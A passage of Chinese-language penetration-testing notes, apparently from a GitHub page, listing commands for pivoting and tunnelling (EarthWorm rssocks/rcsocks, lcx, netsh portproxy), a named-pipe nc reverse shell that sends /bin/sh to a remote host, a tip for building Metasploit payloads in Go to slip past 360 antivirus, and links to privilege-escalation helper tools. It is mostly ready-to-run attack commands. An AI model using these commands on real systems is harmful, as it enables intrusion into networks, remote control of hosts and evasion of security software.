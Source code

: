     反向：

     ```shell
     攻击机：
     	chmod 777 ./ew_for_linux64
     	./ew_for_linux -s rcsocks -l 1080 -e 2333 即被攻击机连接本机2333端口，转发到本机的1080端口，访问本机的1080端口，相当访问被攻击机的2333
     	设置proxychain socks5 本主机ip port：1080
     	proxychain代理即可
     被攻击机：
     	chmod 777 ew_for_linux
     	./ew_for_Linux32 -s rssocks -d 192.168.1.100 -e 2333
     ```

  5. ##### NC

     [nc简单使用](https://tom0li.github.io/nc/) 

     linux root 权限 

     ```shell
     mknod /tmp/backpipe p  
     /bin/sh 0</tmp/backpipe | nc ip port 1>/tmp/backpipe
     ```

     权限不够用mkfifo /tmp/backpipe 以上用nc监听即可 

  6. ##### lcx

     ```shell
     被攻击机 lcx.exe -slave 139.1.2.3 8888 10.48.128.25 3389
     vps      lcx.exe –listen 8888 5555
     ```

     在本机mstsc登陆139.1.2.3:5555或在vps连接127.0.0.1:5555 

  7. ##### netsh win自带(只支持tcp)360拦

     ```shell
     netsh interface portproxy add v4tov4 listenport=80 connectaddress=192.168.1.101 connectport=8080   将本地80转到192.168.1.101:8080端口
     
     netsh interface portproxy add v4tov4 listenaddress=1.1.1.101 listenport=8082 connectaddress=192.168.2.102 connectport=3389   通过连接1.1.1.101的8082端口，相当连接1.1.1.101可访问的内网192.168.2.102的3389端口
     ```

  8. ##### go+msf & py+msf bypass360

     ```shell
     msf编码生成后，用go build -ldflags="-H windowsgui -s -w"即可，详细参考以下link   http://lu4n.com/metasploit-payload-bypass-av-note/ http://hacktech.cn/2017/04/20/msf-AntiVirus.html
     ```

  9. ##### 提权

     win提权辅助工具，原理主要通过systeminfo补丁信息比对漏洞库
     工具链接 https://github.com/GDSSecurity/Windows-Exploit-Suggester

     linux提权辅助
     https://github.com/jondonas/linux-exploit-suggester-2

